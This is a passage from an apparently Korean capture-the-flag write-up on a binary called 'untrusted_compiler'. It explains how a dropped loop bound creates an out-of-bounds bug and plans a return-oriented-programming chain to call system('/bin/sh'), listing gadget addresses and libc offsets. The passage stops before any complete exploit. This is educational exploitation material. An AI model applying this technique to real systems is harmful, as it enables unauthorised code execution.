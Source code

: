 ``` c
```
컴파일 후 결과를 보면 기존 C 코드의 의도와 달라진 부분이 생긴 것을 확인할 수 있다.  
### 1. while 문 조건 변화
``` c
// 기존 C 코드
while ((random_list[idx] < UINT32_MAX) && (idx < 10))

// 컴파일 후 코드
if ((&random_list)[i] == -1)
```
`(idx < 10)` 부분이 사라졌다. 이로인해 실제로 테스트 해보면 while 문이 10회 이상 반복하는 것을 확인할 수 있다.  
### 2. input_list의 포인터 이동
``` c
// 컴파일 후 코드
input_list = input_list + 1;
```
기존 C 코드에서는 `idx` 변수로 input_list 배열의 요소에 접근했지만, 컴파일 이후 코드를 보면 input_list의 배열 포인터 값을 1 증가(주소 + 4) 시킨다. 이는 1번 while 문 조건 변화와 맞물려 `OOB(Out Of Bounds)` 취약점이 발생한다.  
> [!note] OOB 취약점이란?  
> OOB는 배열이나 버퍼의 경계 밖 메모리에 접근하는 취약점이다. 보통은 인덱스를 잘못 검사하거나 조건문이 없을 때 발생한다. 이에 따른 결과는 배열 밖 메모리를 읽거나 쓸 수 있게 된다.  
## Exploit
### Strategy
해당 문제는 flag 관련 함수나 힌트가 없다. 즉, 목적은 shell을 따는 것이라고 짐작해 볼 수 있다. 또한 `OOB`, `ROP` 취약점은 shell을 따기에 충분한 환경이다.  
``` plain text
ROP 공격을 통한 system("/bin/sh") 호출
```
### ROP(Return Oriented Programming)
ROP는 BOF 같은 취약점을 이용해 함수 호출 대신 짧은 코드 조각(gadget)을 연결해서 원하는 동작을 하는 기술이다. 현대 시스템에서는 `스택 실행이 금지(NX bit)` 되어 있어서 쉘코드를 직접 실행할 수 없다. 따라서 기존 바이너리나 라이브러리에 존재하는 코드 조각(gadget)을 이용해서 원하는 동작을 구현한다. gadget은 ret으로 끝나는 짧은 어셈블리 명령어 조각이다. (예 pop rdi; ret)  
ROP Chain은 여러 gadget을 스택에 쌓아 실행 순서대로 이어 붙인 체인이다. 당연히 체인이 길어질 수록 난이도는 올라간다.  
### Exploitation Steps
``` sh
$ ROPgadget --binary ./untrusted_compiler --re "ret"
Gadgets information
============================================================
0x000000000040101a : ret
```
``` sh
$ ROPgadget --binary ./untrusted_compiler --re "rdi"
Gadgets information
============================================================
0x0000000000401444 : pop rdi ; ret
```
``` sh
$ ROPgadget --binary ./untrusted_compiler --re "pop rsi"
Gadgets information
============================================================
0x0000000000401442 : pop rsi ; pop r15 ; ret
```
``` sh
strings -tx libc.so.6 | grep "/bin/sh"
 18cd57 /bin/sh
```
``` sh
readelf -s libc.so.6 | grep " system@"
  1351: 0000000000045390    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
```
### Stack Frame of main
